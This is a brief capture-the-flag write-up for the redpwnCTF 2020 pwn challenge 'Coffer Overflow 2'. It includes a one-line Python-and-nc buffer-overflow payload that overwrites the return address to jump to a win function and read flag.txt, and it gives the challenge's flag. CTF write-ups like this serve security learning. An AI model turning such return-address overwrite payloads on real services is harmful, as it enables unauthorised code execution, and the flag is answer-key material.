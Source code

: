 # Coffer Overflow 2
Points: 304
## Category
Pwn
## Problem Statement
You'll have to jump to a function now!?\
nc 2020.redpwnc.tf 31908\
Attachment : "coffer-overflow-2" and "coffer-overflow-2.c"
## Solution
* Again we followed [CTF101 buffer overflow](https://ctf101.org/binary-exploitation/buffer-overflow/).
* It asked us to call one specific function.
* `python -c 'print("\x00"*24+"\xea\x06\x40"+"\x00"*5);print("cat flag.txt")' | nc 2020.redpwnc.tf 31908`
## Flag
```
flag{ret_to_b1n_m0re_l1k3_r3t_t0_w1n}
```